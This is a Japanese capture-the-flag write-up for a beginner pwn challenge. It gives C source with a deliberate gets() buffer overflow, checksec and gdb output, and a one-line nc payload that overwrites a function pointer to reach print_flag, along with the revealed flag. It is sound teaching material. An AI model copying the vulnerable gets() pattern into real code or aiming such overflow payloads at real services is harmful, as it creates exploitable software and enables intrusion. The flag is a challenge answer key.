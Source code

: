 # danger of buffer overflow:Pwn:100pts
危険です  

[buffer-overflow.c](buffer-overflow.c)　[buffer-overflow](buffer-overflow)  

`nc 34.170.146.252 24310`  

# Solution
CソースとELFが渡される。  
ソースは以下の通りだった。  
```c
#include <stdio.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>

void print_flag() {
  char flag[256];
  int fd = open("./flag.txt", O_RDONLY);
  if (fd < 0) { puts("./flag.txt not found"); return; }
  write(1, flag, read(fd, flag, sizeof(flag)));
}

void bye() {
  puts("bye!");
}

int main() {
  setbuf(stdout, NULL);

  char buf[8];
  void (*funcptr)() = bye;
  
  printf("address of print_flag func: %p\n", print_flag);
  printf("gets to buf: ");
  gets(buf);
  printf("content of funcptr: %p\n", funcptr);
  funcptr();
  return 0;
}
```
`gets`で自明なBOFがあり、`bye`の呼び出し先を上書きできる。  
```bash
$ checksec --file=./buffer-overflow
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   43 Symbols      N/A     0               0               ./buffer-overflow
```
親切なことにNo PIEで`print_flag`のアドレスまで教えてくれている。  
以下のように行う。  
```bash
$ gdb ./buffer-overflow
~~~
pwndbg> p print_flag
$1 = {<text variable, no debug info>} 0x404126 <print_flag>
~~~
$ echo -e 'AAAAAAAA\x26\x41\x40' | nc 34.170.146.252 24310
address of print_flag func: 0x404126
gets to buf: content of funcptr: 0x404126
Alpaca{1_r3ally_d0nt_w4nt_t0_us3_g3t5}
```
flagが得られた。  

## Alpaca{1_r3ally_d0nt_w4nt_t0_us3_g3t5}
